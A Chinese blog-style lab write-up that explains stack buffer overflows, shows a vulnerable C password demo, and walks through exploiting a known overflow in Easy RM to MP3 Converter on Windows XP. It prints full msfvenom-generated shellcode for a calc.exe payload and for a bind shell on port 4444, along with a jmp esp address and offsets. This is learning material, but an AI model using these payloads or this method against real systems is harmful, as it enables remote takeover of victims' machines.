








# 简介
> 在看了《0day安全：软件漏洞分析技术》的前几章和《Exploit编写系列教程》的第一章之后，简单记录一下自己遇到的问题，一些资源和简单命令。下面主要从3个方面出发记录。1.栈溢出的原理及简单demo实验。2.具体软件栈溢出的利用（不是挖掘栈溢出漏洞，是已经知道后怎么利用）。3.Metasploit的简单使用。
<!--more-->
# 环境
> 系统版本，软件的编译选项等会对栈溢出是否生效产生影响。建议最好在虚拟机中进行实验
- 栈溢出软件运行环境：吾爱破解论坛的虚拟机（WinXp sp3）
- olldbg  x32_dbg
- 攻击机：Kali
- python：2.7
- 所有代码，软件都在下面的百度云链接中[资料](https://pan.baidu.com/s/1K2pjScAM5x2OIGtnhA4cpw) 提取码：7inm 
# 原理

## 栈
> 栈是一种LIFO（后进先出）的数据结构。最常见两种操作：压栈（PUSH）,出栈（POP）。函数在调用时需要把用到的参数压入栈中，并且把EBP（栈基址）和EIP（函数调用返回后执行的下一条命令地址）也压入栈中。

## 函数调用
> 不同的声明对函数调用的处理有一些区别。

| 调用约定的声明 | 参数入栈顺序 | 恢复栈平衡的位置 |
| ------ | ------ | ------ |
| __cdecl | 右->左 | 母函数 |
| __fastcall | 右->左 | 子函数 |
| __stdcall | 右->左 | 子函数 |
> 函数调用的一般步骤
1. 参数入栈：参数从右到左依次压入系统栈中
2. 返回地址入栈： 将当前指令的下一条代码地址压入栈中，供返回后使用
3. 代码区跳转： 处理器从当前代码区跳转到被调用函数的入口处
4. 栈帧调整：保存当前栈帧状态值，以备后面恢复栈帧使用（EBP入栈）；将当前栈帧切换到新栈帧（将ESP值装入EBP，更新栈帧底部）；给新栈帧分配空间（把ESP减去所需空间的大小，抬高栈顶）；
```x86asm
;func_add(int a,int b)
push b;b入栈
push a;a入栈
call func_add;调用add做了两件事情1.将下一条命令地址压入栈中2.跳转到函数入口
push ebp;保存上一个栈的底部
mov ebp,esp;设置新栈的底部
sub esp,xxx;设置栈帧的顶部，抬高栈空间
```
下图为main调用func_add时栈的状态示意图


# 栈溢出简单Demo
实验环境

|  | 推荐使用的环境 | 备注 |
| ------ | ------ | ------ |
| 操作系统 | win32Xp SP2 | 我是在WinXp sp3进行实验的 |
| 编译器 | VC6.0 | 其他编译器需要重新调试 |
| 编译选项 | 默认编译选项 | VS2003和VS2005中的GS编译选项会使栈溢出失败 |
| build版本 | debug | 使用release版本需要重新调试 |

实验代码
```c
// stack_overflow_var.exe
#include <stdio.h>
#define PASSWORD "1234567"
int verify_password (char *password)
{
	int authenticated;
	char buffer[8];// add local buff
	authenticated=strcmp(password,PASSWORD);
	strcpy(buffer,password);//over flowed here!	
	return authenticated;
}
main()
{
	int valid_flag=0;
	char password[1024];
	while(1)
	{
		printf("please input password:       ");
		
		scanf("%s",password);
		
		valid_flag = verify_password(password);
		
		if(valid_flag)
		{
			printf("incorrect password!\n\n");
		}
		else
		{
			printf("Congratulation! You have passed the verification!\n");
			break;
		}
	}
}
```

> 可以看到输入password时并没有限制长度，但是在verify_password中复制password到buff时，buff只有8个字节的长度，可能会产生溢出。下图是当我们输入7个q时栈的状态。



> c/c++判断字符串结尾是根据null来判断的，当遇到null时就是字符串结尾。Null在代码中表示为0x00。当我们输入8个q时，最后的null会溢出将0x00000001覆盖为0x00000000即authenticated返回为false，程序就会返回“Congratulation! You have passed the verification!”表示password相等的提示。这就完成了简单的溢出。当然如果我们输入的password足够长，可将返回地址也给覆盖掉，转而执行其他函数。下图为ollydbg调试执行了strcpy之后的栈。



# 具体软件栈溢出的利用

> 这个漏洞最早被发在packetstormsecurity.org中,[原文链接](https://packetstormsecurity.com/files/79307/Easy-RM-To-MP3-Converter-2.7.3.700-Overflow.html)。为了进行实验我去网上找到了这个[软件和POC](https://www.exploit-db.com/exploits/10374)。如果访问不了这几个网站的话，在文章的开头的百度云链接中也有这个软件。因为是第一次做这个实验所以也遇到挺多坑的，给的POC也并不能运行。所以我的目标就是根据文章利用MSF写出POC。

## 定位到溢出点
> 根据文章我们知道crash.m3u文件的25000到30000之间的某个位置。所以就用 **pattern.py 5000**（msf中pattern_create.rb和pattern_offset.rb可以做相同的事情）来生成5000字符长度的字符串，方便我们根据崩溃时的提示定位到EIP（就是前面提到的返回地址）。下图为崩溃时的提示0x366a4235。现在就可以用这个去查偏移，就能确定是哪几个字节把EIP给覆盖了。


```
(base) C:\workplace\tools>python pattern.py 0x366a4235
Pattern 0x366a4235 first occurrence at position 1067 in pattern.
```
> 查询偏移可以知道偏移为1067个字节。所以前面需要26067个字节去填充（一般使用A字符去填充，当然也可以是随意的），之后的4个字节会将返回地址给覆盖了。现在用'BBBB'来代替这个4个字节去测试。可以看到返回的报错改成了0x42424242(就是ascii的'BBBB')。

## 找到jmp ESP
> 为什么要找jmp ESP?一般情况下，ESP寄存器中的地址总是指向系统栈且不会被溢出的数据破坏。函数返回时，ESP所指的位置恰好是我们所淹没的返回地址的下一个。有时候也可以观察，寄存器的情况，并不一定非要使用jmp esp。我这里使用的是x32_dbg需要先设置x32_dbg为默认的实时调试器。options->perferences->mis把Set x64_dbg as Just In Time Debugger勾选。当软件崩溃时，点击取消，会自动启动调试器附加。

> 点击Symbols->双击可能存在的动态链接库->右键search for command->输入jmp esp 下面是我在kernel.dll中找到的jmp esp指令的地址0x7C874413.当然我们也可以用代码去查找0xFFE4(jmp esp的机器码为0xFFE4).当前计算机内存地址上的内容是指令还是数据是通过当前的上下文环境决定的,所以当用上面的办法找不到的时候,可以自己写代码来搜索内存中是否有0xFFE4


## 定位shellcode的位置

> 经过上面的准备,我们需要查找我们输入的字符串哪些被填充到了ESP指向的地址.但是'BBBB'之后的字符串并没有全部直接被填充到了返回地址之后的栈中。我们需要去调试查看报错之后的栈，找到我们shellcode应该填写的位置。现在我们使用比较明显的字符串如'1abcdefghijklmnopqrstuvwxyz2abcdefghijklmnopqrstuvwxyz3abcdefghijklmnopqrstuvwxyz'方便我们定位我们的字符串在栈中的位置。通过下面这张图我们知道最前面的**1abc**并没有被压到栈中,而是从之后的'defg...'开始压入栈中。同时可以计算出压入栈的空间至少是104个字节（因为后面只写了4个a-z，除掉最开始的4个字节。104=27*4-4，最前面的4个字节是因为在返回时会先pop一个4字节的参数）



# 利用msf生成shellcode

> 一般情况下在可利用的栈空间较大时，可以在最前面先加入一定数量的'\x90'(\x90是nop的机器码)可以提高shellcode的成功率.接下来就是使用msf上的msfvenom生成shellcode，再生成exp。
msfvenom的一些参数
- -p shellcode的功能，也就是有效载荷
- -b 避免出现什么字符这里使用的是 -b '\x00'，因为shellcode会因为\x00截断
- -f 输出的shellcode格式
- --list-options 有一些shellcode需要设置一些参数可以用这个命令查看需要的参数
- -e 设置编码和解码格式。有时候为了避免一些字符需要进行编码。为了过免杀也需要编码

```powershell
//下面是使用msf生成的代码，只需要把buf部分复制到之前的代码中替代后面的字符串就能生成有一定用的exp
//这条命令会生成一个能弹一个计算器的exp
PS C:\metasploit-framework\bin> .\msfvenom.bat -p windows/exec CMD=calc.exe -b '\x00' -f python
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 220 (iteration=0)
x86/shikata_ga_nai chosen with final size 220
Payload size: 220 bytes
Final size of python file: 1060 bytes
buf =  ""
buf += "\xba\xcb\xd0\xfc\x46\xd9\xca\xd9\x74\x24\xf4\x5b\x29"
buf += "\xc9\xb1\x31\x31\x53\x13\x03\x53\x13\x83\xeb\x37\x32"
buf += "\x09\xba\x2f\x31\xf2\x43\xaf\x56\x7a\xa6\x9e\x56\x18"
buf += "\xa2\xb0\x66\x6a\xe6\x3c\x0c\x3e\x13\xb7\x60\x97\x14"
buf += "\x70\xce\xc1\x1b\x81\x63\x31\x3d\x01\x7e\x66\x9d\x38"
buf += "\xb1\x7b\xdc\x7d\xac\x76\x8c\xd6\xba\x25\x21\x53\xf6"
buf += "\xf5\xca\x2f\x16\x7e\x2e\xe7\x19\xaf\xe1\x7c\x40\x6f"
buf += "\x03\x51\xf8\x26\x1b\xb6\xc5\xf1\x90\x0c\xb1\x03\x71"
buf += "\x5d\x3a\xaf\xbc\x52\xc9\xb1\xf9\x54\x32\xc4\xf3\xa7"
buf += "\xcf\xdf\xc7\xda\x0b\x55\xdc\x7c\xdf\xcd\x38\x7d\x0c"
buf += "\x8b\xcb\x71\xf9\xdf\x94\x95\xfc\x0c\xaf\xa1\x75\xb3"
buf += "\x60\x20\xcd\x90\xa4\x69\x95\xb9\xfd\xd7\x78\xc5\x1e"
buf += "\xb8\x25\x63\x54\x54\x31\x1e\x37\x32\xc4\xac\x4d\x70"
buf += "\xc6\xae\x4d\x24\xaf\x9f\xc6\xab\xa8\x1f\x0d\x88\x47"
buf += "\x6a\x0c\xb8\xcf\x33\xc4\xf9\x8d\xc3\x32\x3d\xa8\x47"
buf += "\xb7\xbd\x4f\x57\xb2\xb8\x14\xdf\x2e\xb0\x05\x8a\x50"
buf += "\x67\x25\x9f\x32\xe6\xb5\x43\x9b\x8d\x3d\xe1\xe3"
```

当我们用那个软件打开我们生成的exp时，会自动弹出一个计算器，如下图所示。


现在我们尝试生成一个有远程shell的exp。想想也是有点激动。当软件打开exp时，软件不会有很明显的弹窗（感觉像软件崩溃了一样，不再对我的操作有反应），但是会打开4444端口等待连接。然后我用kali用telnet去连接
```powershell
//虚拟机的ip为192.168.217.128 默认端口为4444
PS C:\metasploit-framework\bin> .\msfvenom.bat -p windows/shell_bind_tcp -b '\x00' x86/alpha_upper -f py
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 355 (iteration=0)
x86/shikata_ga_nai chosen with final size 355
Payload size: 355 bytes
Final size of py file: 1710 bytes
buf =  ""
buf += "\xbf\xad\xe1\xca\x86\xdb\xda\xd9\x74\x24\xf4\x5a\x29"
buf += "\xc9\xb1\x53\x31\x7a\x12\x83\xc2\x04\x03\xd7\xef\x28"
buf += "\x73\xdb\x18\x2e\x7c\x23\xd9\x4f\xf4\xc6\xe8\x4f\x62"
buf += "\x83\x5b\x60\xe0\xc1\x57\x0b\xa4\xf1\xec\x79\x61\xf6"
buf += "\x45\x37\x57\x39\x55\x64\xab\x58\xd5\x77\xf8\xba\xe4"
buf += "\xb7\x0d\xbb\x21\xa5\xfc\xe9\xfa\xa1\x53\x1d\x8e\xfc"
buf += "\x6f\x96\xdc\x11\xe8\x4b\x94\x10\xd9\xda\xae\x4a\xf9"
buf += "\xdd\x63\xe7\xb0\xc5\x60\xc2\x0b\x7e\x52\xb8\x8d\x56"
buf += "\xaa\x41\x21\x97\x02\xb0\x3b\xd0\xa5\x2b\x4e\x28\xd6"
buf += "\xd6\x49\xef\xa4\x0c\xdf\xeb\x0f\xc6\x47\xd7\xae\x0b"
buf += "\x11\x9c\xbd\xe0\x55\xfa\xa1\xf7\xba\x71\xdd\x7c\x3d"
buf += "\x55\x57\xc6\x1a\x71\x33\x9c\x03\x20\x99\x73\x3b\x32"
buf += "\x42\x2b\x99\x39\x6f\x38\x90\x60\xf8\x8d\x99\x9a\xf8"
buf += "\x99\xaa\xe9\xca\x06\x01\x65\x67\xce\x8f\x72\x88\xe5"
buf += "\x68\xec\x77\x06\x89\x25\xbc\x52\xd9\x5d\x15\xdb\xb2"
buf += "\x9d\x9a\x0e\x2e\x95\x3d\xe1\x4d\x58\xfd\x51\xd2\xf2"
buf += "\x96\xbb\xdd\x2d\x86\xc3\x37\x46\x2f\x3e\xb8\x79\xec"
buf += "\xb7\x5e\x13\x1c\x9e\xc9\x8b\xde\xc5\xc1\x2c\x20\x2c"
buf += "\x7a\xda\x69\x26\xbd\xe5\x69\x6c\xe9\x71\xe2\x63\x2d"
buf += "\x60\xf5\xa9\x05\xf5\x62\x27\xc4\xb4\x13\x38\xcd\x2e"
buf += "\xb7\xab\x8a\xae\xbe\xd7\x04\xf9\x97\x26\x5d\x6f\x0a"
buf += "\x10\xf7\x8d\xd7\xc4\x30\x15\x0c\x35\xbe\x94\xc1\x01"
buf += "\xe4\x86\x1f\x89\xa0\xf2\xcf\xdc\x7e\xac\xa9\xb6\x30"
buf += "\x06\x60\x64\x9b\xce\xf5\x46\x1c\x88\xf9\x82\xea\x74"
buf += "\x4b\x7b\xab\x8b\x64\xeb\x3b\xf4\x98\x8b\xc4\x2f\x19"
buf += "\xbb\x8e\x6d\x08\x54\x57\xe4\x08\x39\x68\xd3\x4f\x44"
buf += "\xeb\xd1\x2f\xb3\xf3\x90\x2a\xff\xb3\x49\x47\x90\x51"
buf += "\x6d\xf4\x91\x73"
```
下图为Telnet连接并且创建hello文件夹。到这里实验就基本已经完成。


# 总结

> 简单的说就是输入的数据能够将栈中的返回值覆盖，从而控制程序执行攻击者的代码。简单的流程如下图

- 1.找到栈溢出的点
- 2.找jmp esp和栈大小
- 3.使用msf生成shellcode
- 4.使用shellcode生成exp
- 5.利用exp去攻击目标

> 当然现在的windows系统已经有很多保护措施，所以这些实验都是在xp上进行的。对于之后如何绕过windows上的这些保护进行栈溢出还有堆溢出，请听下回分解（先立个flag）